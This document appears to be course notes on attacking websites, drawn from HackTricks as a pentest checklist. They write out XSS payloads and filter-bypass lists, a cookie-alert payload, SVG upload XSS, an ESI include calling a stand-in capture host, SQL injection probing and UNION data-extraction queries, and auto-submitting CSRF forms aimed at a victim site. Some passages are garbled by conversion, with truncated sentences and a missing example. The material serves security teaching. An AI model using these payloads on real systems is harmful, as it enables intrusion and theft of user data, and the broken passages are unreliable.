


# Week12 WEB: Attacking Websites

According to @Hacktricks: https://book.hacktricks.xyz/

In every pentest web there is several hidden and obvious places that might be vulnerable. This post is meant to be a checklist to confirm that you have searched vulnerabilities in all the possible places.

## Top 10 vulnerabilities

[https://owasp.org/www-project-top-ten/](https://owasp.org/www-project-top-ten/)

- Injection
- Broken Authentication and Session Management
- Sensitive Data Exposure
- XML External Entity
- Broken Access Control
- Security Misconfiguration
- Cross-Site Scripting
- Insecure deserialization
- Using Components With Known Vulnerabilities
- Insufficient Logging and Monitoring

## Proxies

Nowadays web applications usually uses some kind of intermediary proxies, those may be (ab)used to exploit vulnerabilities. These vulnerabilities need a vulnerable proxy to be in place, but they usually also need some extra vulnerability in the backend.

-  [Abusing hop-by-hop headers](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/abusing-hop-by-hop-headers.md)
-  [Cache Poisoning/Cache Deception](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cache-deception.md)
-  [HTTP Request Smuggling](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/http-request-smuggling.md)
-  [H2C Smuggling](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/h2c-smuggling.md)
-  [Server Side Inclusion/Edge Side Inclusion](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/server-side-inclusion-edge-side-inclusion-injection.md)
-  [Uncovering Cloudflare](https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/uncovering-cloudflare.md)
-  [XSLT Server Side Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md)

## User input

Most of the web applications will allow users to input some data that will be processed later.
Depending on the structure of the data the server is expecting some vulnerabilities may or may not apply.

## Reflected Values

If the introduced data may somehow being reflected in the response, the page might be vulnerable to several issues.

-  [Client Side Template Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/client-side-template-injection-csti.md)
-  [Command Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/command-injection.md)
-  [CRLF](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/crlf-0d-0a.md)
-  [Dangling Markup](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md)
-  [File Inclusion/Path Traversal](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion)
-  [Open Redirect](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/open-redirect.md)
-  [Prototype Pollution to XSS](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/deserialization/nodejs-proto-prototype-pollution.md#client-side-prototype-pollution-to-xss)
-  [Server Side Inclusion/Edge Side Inclusion](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/server-side-inclusion-edge-side-inclusion-injection.md)
-  [Server Side Request Forgery](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssrf-server-side-request-forgery.md)
-  [Server Side Template Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection)
-  [Reverse Tab Nabbing](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/reverse-tab-nabbing.md)
-  [XSLT Server Side Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md)
-  [XSS](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting)
-  [XSSI](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xssi-cross-site-script-inclusion.md)
-  [XS-Search](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xs-search.md)

Some of the mentioned vulnerabilities requires special conditions, others just require the content to be reflected. You can find some interesting polygloths to test quickly the vulnerabilities in:

[Reflecting Techniques - PoCs and Polygloths CheatSheet](https://book.hacktricks.xyz/pentesting-web/pocs-and-polygloths-cheatsheet)

### XSS (Cross Site Scripting)

#### Methodology

1. Check if **any value you control** (*parameters*, *path*, *headers*?, *cookies*?) is being **reflected** in the HTML or **used** by **JS** code.
2. **Find the context** where it's reflected/used.
3. If reflected
   1. Check which symbols can you use and depending on that, prepare the payload:
      1. In raw HTML :
         1. Can you create new HTML tags?
         2. Can you use events or attributes supporting `javascript:` protocol?
         3. Can you bypass protections?
         4. Is the HTML content being interpreted by any client side JS engine (*AngularJS*, *VueJS*, *Mavo*...), you could abuse a [**Client Side Template Injection**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/client-side-template-injection-csti.md).
         5. If you cannot create HTML tags that execute JS code, could you abuse a [**Dangling Markup - HTML scriptless injection**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md)?
      2. Inside a HTML tag :
         1. Can you exit to raw HTML context?
         2. Can you create new events/attributes to execute JS code?
         3. Does the attribute where you are trapped support JS execution?
         4. Can you bypass protections?
      3. Inside JavaScript code :
         1. Can you escape the `<script>` tag?
         2. Can you escape the string and execute different JS code?
         3. Are your input in template literals ``?
         4. Can you bypass protections?
4. If used :
   1. You could exploit a **DOM XSS**, pay attention how your input is controlled and if your **controlled input is used by any sink.**

#### Reflected values

In order to successfully exploit a XSS the first thing you need to find is a **value controlled by you that is being reflected** in the web page.

- **Intermediately reflected**: If you find that the value of a parameter or even the path is being reflected in the web page you could exploit a **Reflected XSS**.
- **Stored and reflected**: If you find that a value controlled by you is saved in the server and is reflected every time you access a page you could exploit a **Stored XSS**.
- **Accessed via JS**: If you find that a value controlled by you is being access using JS you could exploit a **DOM XSS**.

#### Contexts

When trying to exploit a XSS the first thing you need to know if **where is your input being reflected**. Depending on the context, you will be able to execute arbitrary JS code on different ways.

##### Raw HTML

If your input is **reflected on the raw HTML** page you will need to abuse some **HTML tag** in order to execute JS code: `` is encoded or deleted), depending on the tag you could **create an event** that executes JS code: `" autofocus onfocus=alert(1) x="`
3. If you **cannot escape from the attribute** (`"` is being encoded or deleted), then depending on **which attribute** your value is being reflected in **if you control all the value or just a part** you will be able to abuse it. For **example**, if you control an event like `onclick=` you will be able to make it execute arbitrary code when it's clicked. Another interesting **example** is the attribute `href`, where you can use the `javascript:` protocol to execute arbitrary code: **`href="javascript:alert(1)"`**
4. If your input is reflected inside "**unexpoitable tags**" you could try the **`accesskey`** trick to abuse the vuln (you will need some kind of social engineer to exploit this): **`" accesskey="x" onclick="alert(1)" x="`**

##### Inside JavaScript code

In this case your input is reflected between **`<script> [...] </script>`** tags of a HTML page, inside a **`.js`**file or inside an attribute using **`javascript:`** protocol:

- If reflected between **`<script> [...] </script>`** tags, even if your input if inside any kind of quotes, you can try to inject `</script>` and escape from this context. This works because the **browser will first parse the HTML tags** and then the content, therefore, it won't notice that your injected `</script>` tag is inside the HTML code.
- If reflected **inside a JS string** and the last trick isn't working you would need to **exit** the string, **execute** your code and **reconstruct** the JS code (if there is any error, it won't be executed:
  - `'-alert(1)-'`
  - `';-alert(1)//`
  - `\';alert(1)//`
- If reflected inside template literals `` you can **embed JS expressions** using `${ ... }` syntax: ``var greetings =`Hello, ${alert(1)}```

##### DOM

There is **JS code** that is using **unsafely** some **data controlled by an attacker** like `location.href` . An attacker, could abuse this to execute arbitrary JS code.

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/dom-xss.md

##### **Universal XSS**

These kind of XSS can be found **anywhere**. They not depend just on the client exploitation of a web application but on **any** **context**. These kind of **arbitrary JavaScript execution** can even be abuse to obtain **RCE**, **read** **arbitrary** **files** in clients and servers, and more.

Some **examples**:

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.md

https://github.com/carlospolop/hacktricks/blob/master/pentesting/pentesting-web/xss-to-rce-electron-desktop-apps.md

#### Injecting inside raw HTML

When your input is reflected **inside the HTML page** or you can escape and inject HTML code in this context the **first** thing you need to do if check if you can abuse `<` to create new tags: Just try to **reflect** that **char** and check if it's being **HTML encoded** or **deleted** of if it is **reflected without changes**. **Only in the last case you will be able to exploit this case**.
For this cases also **keep in mind** [**Client Side Template Injection**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/client-side-template-injection-csti.md)**.**
Note: A HTML comment can be closed using `-->` or `--!>`

In this case and if no black/whitelisting is used, you could use payloads like:

```
<script>alert(1)</script>

<svg onload=alert('XSS')>
```

But, if tags/attributes black/whitelisting is being used, you will need to **brute-force which tags** you can create.
Once you have **located which tags are allowed**, you would need to **brute-force attributes/events** inside the found valid tags to see how you can attack the context.

##### Tags/Events brute-force

Go to [**https://portswigger.net/web-security/cross-site-scripting/cheat-sheet**](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) and click on ***Copy tags to clipboard***. Then, send all of them using Burp intruder and check if any tags wasn't discovered as malicious by the WAF. Once you have discovered which tags you can use, you can **brute force all the events** using the valid tags (in the same web page click on ***Copy events to clipboard*** and follow the same procedure as before).

##### Custom tags

If you didn't find any valid HTML tag, you could try to **create a custom tag** and and execute JS code with the `onfocus` attribute. In the XSS request, you need to end the URL with `#` to make the page **focus on that object** and **execute** the code:

```
/?search=<xss+id%3dx+onfocus%3dalert(document.cookie)+tabindex%3d1>#x
```

##### Blacklist Bypasses

If some kind of blacklist is being used you could try to bypass it with some silly tricks:

```
//Random capitalization
<script> --> <ScrIpT>
 <script>
<scr<script>ipt>
<SCRscriptIPT>alert(1)</SCRscriptIPT>

//You can substitude the space to separate attributes for:
/
/*%00/
/%00*/
%2F
%0D
%0C
%0A
%09

//Unexpected parent tags
<svg><x><script>alert('1'&#41</x>

//Unexpected weird attributes
<script x>
<script a="1234">
<script ~~~>
<script/random>alert(1)</script>
<script      ///Note the newline
>alert(1)</script>
<scr\x00ipt>alert(1)</scr\x00ipt>

//Not closing tag, ending with " <" or " //"
<iframe SRC="javascript:alert('XSS');" <
<iframe SRC="javascript:alert('XSS');" //

//Extra open
<<script>alert("XSS");//<</script>

//Just weird an unexpected, use your imagination
<</script/script><script>
<input type=image src onerror="prompt(1)">

//Using `` instead of parenthesis
onerror=alert`1`

//Use more than one
<<TexTArEa/*%00//%00*/a="not"/*%00///AutOFocUs////onFoCUS=alert`1` //
```

##### Length bypass (XSS in 20chars)

Taken from the blog of [Jorge Lajara](https://jlajara.gitlab.io/posts/2019/11/30/XSS_20_characters.html).

```
<svg/onload=alert``>
<script src=//aa.es>
<script src=//℡㏛.pw>
```

The last one is using 2 unicode characters which expands to 5: telsr
More of these characters can be found [here](https://www.unicode.org/charts/normalization/).
To check in which characters are decomposed check [here](https://www.compart.com/en/unicode/U+2121).
**More tiny XSS for different environments** payload [can be found here and [here](https://tinyxss.terjanq.me/).

##### Click XSS - Clickjacking

If in order to exploit the vulnerability you need the **user to click a link or a form** with prepopulated data you could try to [**abuse Clickjacking**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/clickjacking.md#xss-clickjacking) (if the page is vulnerable).

##### Impossible - Dangling Markup

If you just think that **it's impossible to create an HTML tag with an attribute to execute JS code**, you should check [**Danglig Markup** ](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md)because you could **exploit** the vulnerability **without** executing **JS** code.

#### XSS Abusing other vulnerabilities

##### XSS to SSRF

Got XSS on a **site that uses caching**? Try **upgrading that to SSRF** through Edge Side Include Injection with this payload:

```
<esi:include src="http://yoursite.com/capture" />
```

Use it to bypass cookie restrictions, XSS filters and much more!
More information about this technique here: [**XSLT**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xslt-server-side-injection-extensible-stylesheet-languaje-transformations.md).

##### XSS in dynamic created PDF

If a web page is creating a PDF using user controlled input, you can try to **trick the bot** that is creating the PDF into **executing arbitrary JS code**.
So, if the **PDF creator bot finds** some kind of **HTML** **tags**, it is going to **interpret** them, and you can **abuse** this behaviour to cause a **Server XSS**.

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf.md

If you cannot inject HTML tags it could be worth it to try to **inject PDF data**:

https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/pdf-injection.md

##### XSS uploading files (svg)

Upload as an image a file like the following one (from http://ghostlulz.com/xss-svg/):

```
Content-Type: multipart/form-data; boundary=---------------------------232181429808
Content-Length: 574
-----------------------------232181429808
Content-Disposition: form-data; name="img"; filename="img.svg"
Content-Type: image/svg+xml

<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" />
   <script type="text/javascript">
      alert(1);
   </script>
</svg>
-----------------------------232181429808--
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
   <script type="text/javascript">alert("XSS")</script>
</svg>
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
<polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>
<script type="text/javascript">
alert("XSS");
</script>
</svg>
```

#### XSS resources

[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS injection)
[http://www.xss-payloads.com](http://www.xss-payloads.com/) https://github.com/Pgaijin66/XSS-Payloads/blob/master/payload.txt https://github.com/materaj/xss-list https://github.com/ismailtasdelen/xss-payload-list https://gist.github.com/rvrsh3ll/09a8b933291f9f98e8ec
https://netsec.expert/2020/02/01/xss-in-2020.html

##### XSS TOOLS

Find some [**tools for XSS here**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/xss-tools.md)**.**

## Search functionalities

If the functionality may be used to search some kind of data inside the backend, maybe you can (ab)use it to search arbitrary data.

-  [File Inclusion/Path Traversal](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/file-inclusion)
-  [NoSQL Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/nosql-injection.md)
-  [LDAP Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/ldap-injection.md)
-  [ReDoS](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/regular-expression-denial-of-service-redos.md)
-  [SQL Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/sql-injection)
-  [XAPTH Injection](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xpath-injection.md)

### SQL Injection

### What is SQL injection?

SQL injection is a web security vulnerability that allows an attacker to **interfere** with the **queries** that an application makes to its **database**. It generally allows an attacker to **view data** that they are not normally able to retrieve. This might include data belonging to **other users**, or any other data that the **application** itself is able to **access**. In many cases, an attacker can **modify** or **delete** this data, causing persistent changes to the application's content or behaviour. In some situations, an attacker can escalate an SQL injection attack to **compromise the underlying server** or other back-end infrastructure, or perform a denial-of-service attack. (From [here](https://portswigger.net/web-security/sql-injection)).

*In this POST I'm going to suppose that we have found a possible SQL injection and we are going to discuss possible methods to confirm the SQL injection, recon the database and perform actions.*

#### Entry point detection

You may have found a site that is **apparently vulnerable to SQL**i just because the server is behaving weird with SQLi related inputs. Therefore, the **first thing** you need to do is how to **inject data in the query without breaking it.** To do so you first need to find how to **escape from the current context.**
These are some useful examples:

```
 [Nothing]
'
"
`
')
")
`)
'))
"))
`))
```

Then, you need to know how to **fix the query so there isn't errors**. In order to fix the query you can **input** data so the **previous query accept the new data**, or you can just **input** your data and **add a comment symbol add the end**.

*Note that if you can see error messages or you can spot differences when a query is working and when it's not this phase will be more easy.*

##### **Comments**

```
MySQL
#comment
-- comment     [Note the space after the double dash]
/*comment*/
/*! MYSQL Special SQL */

PostgreSQL
--comment
/*comment*/

MSQL
--comment
/*comment*/

Oracle
--comment

SQLite
--comment
/*comment*/

HQL
HQL does not support comments
```

##### Confirming with logical operations

One of the best ways to confirm a SQL injection is by making it operate a **logical operation** and having the expected results.
For example: if the GET parameter `?username=Peter` returns the same content as `?username=Peter' or '1'='1` then, you found a SQL injection.

Also you can apply this concept to **mathematical operations**. Example: If `?id=1` returns the same as `?id=2-1`, SQLinjection.

```
page.asp?id=1 or 1=1 -- true
page.asp?id=1' or 1=1 -- true
page.asp?id=1" or 1=1 -- true
page.asp?id=1 and 1=2 -- false
```

##### Confirming with Timing

In some cases you **won't notice any change** on the page you are testing. Therefore, a good way to **discover blind SQL injections** is making the DB perform actions and will have an **impact on the time** the page need to load.
Therefore, the we are going to concat in the SQL query an operation that will take a lot of time to complete:

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```

In some cases the **sleep functions won't be allowed**. Then, instead of using those functions you could make the query **perform complex operations** that will take several seconds. *Examples of these techniques are going to be commented separately on each technology (if any)*.

#### Identifying Back-end

The best way to identify the back-end is trying to execute functions of the different back-ends. You could use the ***sleep*** **functions** of the previous section or these ones:

```
["conv('a',16,2)=conv('a',16,2)"                   ,"MYSQL"],
["connection_id()=connection_id()"                 ,"MYSQL"],
["crc32('MySQL')=crc32('MySQL')"                   ,"MYSQL"],
["BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)"       ,"MSSQL"],
["@@CONNECTIONS>0"                                 ,"MSSQL"],
["@@CONNECTIONS=@@CONNECTIONS"                     ,"MSSQL"],
["@@CPU_BUSY=@@CPU_BUSY"                           ,"MSSQL"],
["USER_ID(1)=USER_ID(1)"                           ,"MSSQL"],
["ROWNUM=ROWNUM"                                   ,"ORACLE"],
["RAWTOHEX('AB')=RAWTOHEX('AB')"                   ,"ORACLE"],
["LNNVL(0=123)"                                    ,"ORACLE"],
["5::int=5"                                        ,"POSTGRESQL"],
["5::integer=5"                                    ,"POSTGRESQL"],
["pg_client_encoding()=pg_client_encoding()"       ,"POSTGRESQL"],
["get_current_ts_config()=get_current_ts_config()" ,"POSTGRESQL"],
["quote_literal(42.5)=quote_literal(42.5)"         ,"POSTGRESQL"],
["current_database()=current_database()"           ,"POSTGRESQL"],
["sqlite_version()=sqlite_version()"               ,"SQLITE"],
["last_insert_rowid()>1"                           ,"SQLITE"],
["last_insert_rowid()=last_insert_rowid()"         ,"SQLITE"],
["val(cvar(1))=1"                                  ,"MSACCESS"],
["IIF(ATN(2)>0,1,0) BETWEEN 2 AND 0"               ,"MSACCESS"],
["cdbl(1)=cdbl(1)"                                 ,"MSACCESS"],
["1337=1337",   "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
["'i'='i'",     "MSACCESS,SQLITE,POSTGRESQL,ORACLE,MSSQL,MYSQL"],
```

Also, if you have access to the output of the query, you could make it **print the version of the database**.

*A continuation we are going to discuss different methods to exploit different kinds of SQL Injection. We will use MySQL as example.*

#### Exploiting Union Based

##### Detecting number of columns

If you can see the output of the query this is the best way to exploit it.
First of all, wee need to find out the **number** of **columns** the **initial request** is returning. This is because **both queries must return the same number of columns**.
Two methods are typically used for this purpose:

##### Order/Group by

Keep incrementing the number until you get a False response. Even though GROUP BY and ORDER BY have different functionality in SQL, they both can be used in the exact same fashion to determine the number of columns in the query.

```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

##### UNION SELECT

Select more and more null values until the query is correct:

```
1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worked
```

*You should use `null`values as in some cases the type of the columns of both sides of the query must be the same and null is valid in every case.*

##### Extract database names, table names and column names

On the next examples we are going to retrieve the name of all the databases, the table name of a database, the column names of the table:

```
#Database names
-1' UniOn Select 1,2,gRoUp_cOncaT(0x7c,schema_name,0x7c) fRoM information_schema.schemata

#Tables of a database
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,table_name,0x7C) fRoM information_schema.tables wHeRe table_schema=[database]

#Column names
-1' UniOn Select 1,2,3,gRoUp_cOncaT(0x7c,column_name,0x7C) fRoM information_schema.columns wHeRe table_name=[table name]
```

*There is a different way to discover this data on every different database, but it's always the same methodology.*

## Forms, WebSockets and PostMsgs

When websocket, post message or a form allows user to perform actions vulnerabilities may arise.

-  [Cross Site Request Forgery](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/csrf-cross-site-request-forgery.md)
-  [Cross-site WebSocket hijacking (CSWSH)](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cross-site-websocket-hijacking-cswsh.md)
-  [PostMessage Vulnerabilities](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/postmessage-vulnerabilities.md)

### CSRF (Cross Site Request Forgery)

#### What is CSRF?

**Cross-site request forger**y (also known as CSRF) is a web security vulnerability that allows an attacker to **induce users to perform actions that they do not intend to perform**.
This is done by **making a logged in user** in the victim platform access an attacker controlled website and from there **execute \**malicious JS code, send forms or retrieve "images" to the\** victims account**.

#### Requisites

In order to be able to abuse a CSRF vulnerability you first need to **find a relevant action to abuse** (change password or email, make the victim follow you on a social network, give you more privileges...). The **session must rely only on cookies or HTTP Basic Authentication header**, any other header can't be used to handle the session. An finally, there **shouldn't be unpredictable parameters** on the request.

Several **counter-measures** could be in place to avoid this vulnerability.

#### **Common defenses**

- [**SameSite cookies**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/hacking-with-cookies/#samesite): If the session cookie is using this flag, you may not be able to send the cookie from arbitrary web sites.
- [**Cross-origin resource sharing**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cors-bypass.md): Depending on which kind of HTTP request you need to perform to abuse the relevant action, you may take int account the** CORS policy of the victim site**. *Note that the CORS policy won't affect if you just want to send a GET request or a POST request from a form and you don't need to read the response.*
- Ask for the **password** user to authorise the action.
- Resolve a **captcha**
- Read the **Referrer** or **Origin** headers. If a regex is used it could be bypassed form example with:
  - [http://mal.net?orig=http://example.com](http://mal.net/?orig=http://example.com) (ends with the url)
  - [http://example.com.mal.net](http://example.com.mal.net/) (starts with the url)
- **Modify** the **name** of the **parameters** of the Post or Get request
- Use a **CSRF token** in each session. This token has to be send inside the request to confirm the action. This token could be protected with CORS.

#### CSRF map

[.png)](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (112).png)

#### **Exploit Examples**

##### **Exfiltrating CSRF Token**

If a **CSRF token** is being used as **defence **you could try to **exfiltrate it **abusing a [**XSS**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/xss-cross-site-scripting/#xss-stealing-csrf-tokens) vulnerability or a [**Dangling Markup**](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/dangling-markup-html-scriptless-injection.md) vulnerability.

##### **GET using HTML tags**

```

<h1>404 - Page not found</h1>
The URL you are requesting is no longer available
```

Other HTML5 tags that can be used to automatically send a GET request are:

[.png)](https://github.com/carlospolop/hacktricks/blob/master/.gitbook/assets/image (530).png)

##### Form GET request

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form method="GET" action="https://victim.net/email/change-email">
      <input type="hidden" name="email" value="some@email.com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

##### Form POST request

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="https://victim.net/email/change-email" id="csrfform">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" /> <!-- Way 1 to autosubmit -->
      <input type="submit" value="Submit request" />
       <!-- Way 2 to autosubmit -->
    </form>
    <script>
      document.forms[0].submit(); //Way 3 to autosubmit
    </script>
  </body>
</html>
```

##### Form POST request through iframe

```
<!-- 
The request is sent through the iframe withuot reloading the page 
-->
<html>
  <body>
  <iframe style="display:none" name="csrfframe"></iframe> 
    <form action="/change-email" id="csrfform" target="csrfframe">
      <input type="hidden" name="email" value="some@email.com" autofocus onfocus="csrfform.submit();" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

#### Tools

- https://github.com/0xInfection/XSRFProbe

## HTTP Headers

Depending on the HTTP headers given by the web server some vulnerabilities might be present.

-  [Clickjacking](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/clickjacking.md)
-  [Content Security Policy bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/content-security-policy-csp-bypass.md)
-  [Cookies Hacking](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/hacking-with-cookies.md)
-  [CORS - Misconfigurations & Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/cors-bypass.md)

## Bypasses

There are several specific functionalities were some workarounds might be useful to bypass them

-  [2FA/OPT Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/2fa-bypass.md)
-  [Bypass Payment Process](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/bypass-payment-process.md)
-  [Captcha Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/captcha-bypass.md)
-  [Login Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass)
-  [Race Condition](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/race-condition.md)
-  [Rate Limit Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/rate-limit-bypass.md)
-  [Reset Forgotten Password Bypass](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/reset-password.md)
-  [Registration Vulnerabilities](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/registration-vulnerabilities.md)

## Structured objects / Specific functionalities

